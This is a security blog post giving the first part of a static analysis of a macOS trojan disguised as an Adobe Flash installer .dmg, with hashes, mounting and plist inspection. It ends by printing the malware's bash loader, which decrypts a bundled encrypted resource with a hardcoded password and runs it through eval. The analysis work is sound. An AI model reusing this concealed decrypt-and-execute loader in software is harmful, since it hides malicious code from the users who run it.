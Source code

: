 ```yaml
---
layout: post
title: Adload Sample, Part 1: Static Analysis
---
```

Happy New Year! Excuse my absense, while I have been away taking studying for GCFA and enjoying the holidays. Now that's all over I'm back to show you some static analysis of a macOS trojan I found today. Hope you enjoy and please send any questions, or comments to ragingroosterrem@gmail.com. Thanks!

### Tools Used:
- macOS High Sierra virtualized with Virtualbox
- Bash Commands: bash, cat, cd, clamscan, codesign, file, find, hdiutil, ls, md5, openssl, plutil, shasum
- VirusTotal

### The Story, YAFFD
I was googling a security tool called moloch + threat hunting and clicked on a link to what I thought was a security blog containing some juciy information. It was the third link, on the first page of results mind you! Instead of being served up some info to make my day better, I was redirected to Yet Another Fake Flash Downloader (YAFFD). Okay, I'd preffer to do some malware analysis anyway.

<img src="{{ site.baseurl }}/images/YAFFD.png">

### Analysis

##### After I clicked the pretty button and downloaded the .dmg, I fired up my bash shell and went to my downloads folder to see what gift I was given.
```
$ cd ~/Downloads

$ ls
AdobeFlashPlayerInstaller.dmg

$ file AdobeFlashPlayerInstaller.dmg 
AdobeFlashPlayerInstaller.dmg: zlib compressed data

$ md5 AdobeFlashPlayerInstaller.dmg 
MD5 (AdobeFlashPlayerInstaller.dmg) = 8c5a97b8234af7f41e03b4421904a8ff

$ shasum AdobeFlashPlayerInstaller.dmg 
b972667995d2ca1d205c3be4d57fc80814834970  AdobeFlashPlayerInstaller.dmg

$ codesign -dvvv AdobeFlashPlayerInstaller.dmg 
AdobeFlashPlayerInstaller.dmg: code object is not signed at all
```
Hey! Wouldn't Adobe sign this?

##### Let's tear into this .dmg like a candy bar.
```
$ hdiutil attach AdobeFlashPlayerInstaller.dmg 
Checksumming Protective Master Boot Record (MBR : 0)…
Protective Master Boot Record (MBR :: verified   CRC32 $7510EE46
Checksumming GPT Header (Primary GPT Header : 1)…
 GPT Header (Primary GPT Header : 1): verified   CRC32 $366ED316
Checksumming GPT Partition Data (Primary GPT Table : 2)…
GPT Partition Data (Primary GPT Tabl: verified   CRC32 $70831B84
Checksumming  (Apple_Free : 3)…
                    (Apple_Free : 3): verified   CRC32 $00000000
Checksumming disk image (Apple_HFS : 4)…
..............................................................................
          disk image (Apple_HFS : 4): verified   CRC32 $B3A8FFCC
Checksumming  (Apple_Free : 5)…
                    (Apple_Free : 5): verified   CRC32 $00000000
Checksumming GPT Partition Data (Backup GPT Table : 6)…
GPT Partition Data (Backup GPT Table: verified   CRC32 $70831B84
Checksumming GPT Header (Backup GPT Header : 7)…
  GPT Header (Backup GPT Header : 7): verified   CRC32 $00709B9F
verified   CRC32 $7647ACE4
/dev/disk1          	GUID_partition_scheme          	
/dev/disk1s1        	Apple_HFS                      	/Volumes/Player

$ cd /Volumes/Player/

$ find .
.
./.5692438210.png
./.DS_Store
./Player_210.app
./Player_210.app/Contents
./Player_210.app/Contents/_CodeSignature
./Player_210.app/Contents/_CodeSignature/CodeDirectory
./Player_210.app/Contents/_CodeSignature/CodeRequirements
./Player_210.app/Contents/_CodeSignature/CodeRequirements-1
./Player_210.app/Contents/_CodeSignature/CodeResources
./Player_210.app/Contents/_CodeSignature/CodeSignature
./Player_210.app/Contents/Info.plist
./Player_210.app/Contents/MacOS
./Player_210.app/Contents/MacOS/Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg
./Player_210.app/Contents/Resources
./Player_210.app/Contents/Resources/210
./Player_210.app/Contents/Resources/app5692438210.icns
./Player_210.app/Contents/Resources/enc
```
Looks similar to most other .dmg directory structures.

###### Let's take a look at the .dmg's Property List (plist) which stores some valuable app data.
```
$ cd /Volumes/Player/Player_210.app/

$ plutil -p Info.plist 
{
  "CFBundleExecutable" => "Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg"
  "CFBundleIconFile" => "app5692438210.icns"
  "CFBundleIdentifier" => "com.Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg"
  "CFBundleInfoDictionaryVersion" => "6.0"
  "CFBundleName" => "PlayerInstaller"
  "CFBundlePackageType" => "APPL"
  "CFBundleShortVersionString" => "1.0"
  "CFBundleSupportedPlatforms" => [
    0 => "MacOSX"
  ]
  "CFBundleVersion" => "5692438210"
  "LSMinimumSystemVersion" => "10.9"
  "NSHumanReadableCopyright" => "Copyright © 2017 All rights reserved."
  "NSPrincipalClass" => "NSApplication"
}
```
Looks like "Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg" is the binary executed by the .dmg.

##### Let's inspect the binary.
```
$ cd MacOS/

$ ls
Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg

$ file Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg 
Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg: Bourne-Again shell script text executable, ASCII text
```
Hey! That's a shell script, not a Macho. But, that's not too extraordinary. 

##### Let's see what it does.
```
$ cat Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg 
#!/bin/bash
cd "$(dirname "$BASH_SOURCE")"
fileDir="$(dirname "$(pwd -P)")"
eval "$(openssl enc -base64 -d -aes-256-cbc -nosalt -pass pass:5692438210 <"$fileDir"/Resources/enc)"
```
